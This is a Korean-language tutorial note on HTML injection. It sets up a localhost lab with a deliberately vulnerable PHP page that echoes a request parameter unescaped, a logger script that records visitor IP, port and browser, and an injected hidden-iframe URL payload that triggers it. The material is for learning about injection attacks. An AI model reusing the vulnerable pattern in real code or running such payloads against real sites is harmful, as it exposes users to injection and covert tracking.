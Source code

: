 # HTML Injection (18.07.19) #

- 취약한 매개 변수에 악의적인 HTML을 삽입해 다른 동작(공격자가 원하는 동작)이 수행하도록 공격을 하는 기법.
- XSS 나 CSRF 공격을 이해하는 데 좋은 수단

> injection : 보내지 말아야 할 코드지만 실제 보냈을 때 필터링을 통과하는 것.



###   ! Html Injection 공격 개념 ! ###
![png1](https://user-images.githubusercontent.com/40850499/43046468-5cd3a9e0-8e04-11e8-8b82-161631cc4bc5.PNG)



http에서 공격자가 악의적인 html를 주입시키게 되면, 

단순한 html 태그가 서버로 전송되어 전혀 예상 외의 결과 값이 되돌아오게 된다. 

클라이언트는 특정 이벤트를 웹 서버로 보내고 서버는 이를 처리를 해 다시 클라이언트로 보낸다.

여기서, Get 방식이나 Post 방식으로 전송을 할 때 취약점을 통해 공격이 수행 되는 것이다.



------



## 간단한 공격실습 ##

실습을 하기 위해서 autoset이 필요하다.

[autoset](http://autoset.net/xe/download_autoset_9_0_0)다운을 받고 구글링해서 설정을 해준다음 따라하기로 한다.

![png2](https://user-images.githubusercontent.com/40850499/43046477-6614606c-8e04-11e8-8fb6-613e219c731d.PNG)


실습은 브라우저 주소창에서 공격자가 url 로 ip 탈취 html를 주입하게 되면 

공격자가 클라이언트 정보를 얻게 된다는 내용이다.

먼저, C 드라이브에 있는 autoset 에 html폴더를 생성을 한 뒤

 이 실습에서 필요한 php 파일을 만든다.

![kakaotalk_20180722_230930126](https://user-images.githubusercontent.com/40850499/43046495-820f22b6-8e04-11e8-9420-9fe586bd5485.png)

 < vul.php > 

```php+HTML
<?php
    $name = $_REQUEST ['name'];
?>
<html>
	<h1>Welcome to the Internet!</h1>
	<br>
	<body>
            Hello, <?php echo $name; ?>!
	    <p>We are so glad you are here!</p>
	</body>
</html>
```

vul.php 파일은 공격이 성공이 되었을 때 브라우저에 나타 날 내용이다

name='tset' 가 Get 방식으로 변수를 전송을 하고 html 문구를 넣어 특정 php를 인식 시킨다.



<ip.php>

```php
<?PHP
$ip_address;
$ip_address = $_SERVER['REMOTE_ADDR'];
$port = $_SERVER['SERVER_PORT'];
$agent = $_SERVER['HTTP_USER_AGENT'];
$time = time();

$log = $ip_address." , ".$port." , ".$agent." , ".$time;
$file = './log.txt';
file_put_contents($file, $log .PHP_EOL, FILE_APPEND);
?>
```

ip.php는 클라이언트의 ip , 포트, 브라우저 종류, 시간을 수집하여 서버에 로그로 기록을 해준다.



그리고 나서 log.txt 파일도 생성을 해준 뒤, 생성한 모든 파일을 html 폴더에 넣어준다.

모든 실습 준비가 되었으면 브라우저 주소창에 다음과 같이 적어준다.

```html
http://127.0.0.1/html/vul.php?name=test<iframe width=“0” height=“0” src=“http://127.0.0.1/html/ip.php”></ifame>
```

>  ifame 태그는 html 화면에 또 다른 html 창을 넣을 수 있는 태그이다.



저 url 를 치고 나면 다음과 같은 화면이 보일 것이다.

![default](https://user-images.githubusercontent.com/40850499/43046501-951068a2-8e04-11e8-918f-64af7cc8f2cf.PNG)




이 화면은 취약점 공격 화면이다

이제 html 폴더에 가서 log.txt 를 확인 해보면

![2](https://user-images.githubusercontent.com/40850499/43046503-9dea96a0-8e04-11e8-978c-9ccdc3b29349.PNG)



이렇게 접속된 클라이언트의 ip 정보와 포트, 브러우저, 시간 정보를 획득했음을 확인 할 수 있다.



이로써 저어엉말 간단한 html injection 실습이 끝났다.
